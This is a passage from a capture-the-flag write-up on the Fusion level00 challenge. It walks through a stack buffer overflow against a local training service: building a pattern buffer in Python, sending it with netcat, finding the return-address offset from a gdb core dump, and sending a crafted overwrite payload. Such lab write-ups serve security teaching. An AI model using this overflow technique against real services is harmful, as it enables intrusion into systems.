 \begin{lstlisting}
buf = []
for i in range(0x41,0x4c):
			buf.append(chr(i)*20)
			print ''.join(buf)
\end{lstlisting}

Using the pre-3.0 python on fusion, we take 20 copies of the first
12 letters each, and append them all together. This gives a nice, 
simple buffer we can just copy/paste:
\begin{lstlisting}
fusion@fusion:~/level00$ python buf.py 
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEE
FFFFFFFFFFFFFFFFFFFFGGGGGGGGGGGGGGGGGGGGHHHHHHHHHHHHHHHHHHHHIIIIIIIIIIIIIIIIIIIIJJJJJJJJJJJJJJJJJJJJ
KKKKKKKKKKKKKKKKKKKK
\end{lstlisting}

So, testing is as simple as sending a properly formatted buffer with netcat,
and examining the core dump \texttt{/core}. If this file exists already,
you should delete it with \texttt{rm} before making another. Of course, we'll
also want to execute \texttt{ulimit -c unilimited} to allow coredumps unilmited
in size

\begin{lstlisting}
fusion@fusion:~/level00$ nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
GET AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEE
EEEEFFFFFFFFFFFFFFFFFFFFGGGGGGGGGGGGGGGGGGGGHHHHHHHHHHHHHHHHHHHHIIIIIIIIIIIIIIIIIIIIJJJJJJJJJJJJJJJJ
JJJJKKKKKKKKKKKKKKKKKKKK HTTP/1.1
fusion@fusion:~/level00$ sudo gdb -q --core /core
[New LWP 3042]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 11, Segmentation fault.
#0  0x48484847 in ?? ()
\end{lstlisting}

Excellent! The return pointer happened to be directly on a boundary.
Remembering how the buffer was crafted (increasing order), and the
little-endianness of our intel machine, then we know that
the return address is directly where ``\texttt{GHHH}" is in our buffer.
To further verify this, we can craft another buffer with a specific value where
we expect the return pointer to be, send it to the server, then check
the coredump. Remember that we'll need to remove the coredump \texttt{/core}
before crashing the program again, as otherwise it won't be overwritten.

\begin{lstlisting}
fusion@fusion:~$ sudo rm /core
fusion@fusion:~$ python -c 'print "GET " + "A"*139 + "\xf3\xf2\xf1\xf0" + " HTTP/1.1\n"' | nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
\end{lstlisting}

